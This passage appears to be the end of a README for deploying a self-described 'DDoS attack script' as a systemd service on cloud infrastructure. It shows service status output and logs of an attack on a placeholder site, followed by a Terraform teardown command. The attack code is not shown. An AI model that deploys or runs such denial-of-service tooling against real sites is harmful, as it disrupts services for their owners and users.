    Process: 1333 ExecStart=/usr/bin/python3 /home/ubuntu/ddos_script.py (code=exited, status=0/SUCCESS)
   Main PID: 1333 (code=exited, status=0/SUCCESS)
        CPU: 22.860s

Oct 23 15:55:08 ip-172-31-18-78 systemd[1]: Started ddos_script.service - DDoS attack script.
Oct 23 15:55:21 ip-172-31-18-78 python3[1333]: Attack against target https://example.com started at: 2024-10-23 15:55:09.649547
Oct 23 15:55:21 ip-172-31-18-78 python3[1333]: Attack ended at: 2024-10-23 15:55:21.395468
Oct 23 15:55:21 ip-172-31-18-78 python3[1333]: Total number of requests sent: 278
Oct 23 15:55:21 ip-172-31-18-78 systemd[1]: ddos_script.service: Deactivated successfully.
```  

If you want to destroy the infrastructure run:  
```sh
terraform destroy
```  


